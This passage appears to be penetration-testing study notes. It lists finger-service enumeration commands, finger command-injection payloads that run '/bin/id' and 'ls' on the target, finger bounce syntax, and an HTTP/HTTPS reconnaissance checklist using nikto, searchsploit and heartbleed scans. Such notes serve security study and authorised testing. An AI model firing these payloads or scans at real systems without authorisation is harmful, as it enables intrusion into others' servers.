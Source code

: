 	-   `finger admin@example.com`
	    
	-   `finger user@example.com`
	    
	-   `finger 0@example.com`
	    
	-   `finger .@example.com`
	    
	-   `finger **@example.com`
	    
	-   `finger test@example.com`
	    
	-   `finger @example.com`
    

-   Command execution

	-   `finger "|/bin/id@example.com"`
	    
	-   `finger "|/bin/ls -a /@example.com"`
    

-   Finger Bounce
	-   `finger user@host@victim`
	    
	-   `finger @internal@external`

---

# 80,443-HTTP,HTTPS



**Enumeration**

-   Add ip address into etc/host (DNS)
	-   Check it out web browser
	-   What does it display
	-   Read entire pages
		-   look for emails, names, user info	-   Enum the interface, what version of CMS, server installation page etc.	-   What does the potential vulnerability in it?
		-   LFI, RFI, Directory traversal, SQL Injection, XML External Entities, OS Command Injection, Upload vulnerability

	-   Default web server page which reveals version information?

-   Use Web Application Scanner (Refer note)
	-   Example, nikto
		-   `nikto -h 10.10.10.10 –output filename`

-   Google for exploit
	-   Rapid7
	-   SearchSploit

-   If https
	-   scan for heartbleed
		-   `sslscan 192.168.101.1:443`
		-   `nmap -sV --script=ssl-heartbleed 192.168.3.157`
	-   Read the certificate
		-   Does it include names that might be useful?	-   Correct vhost
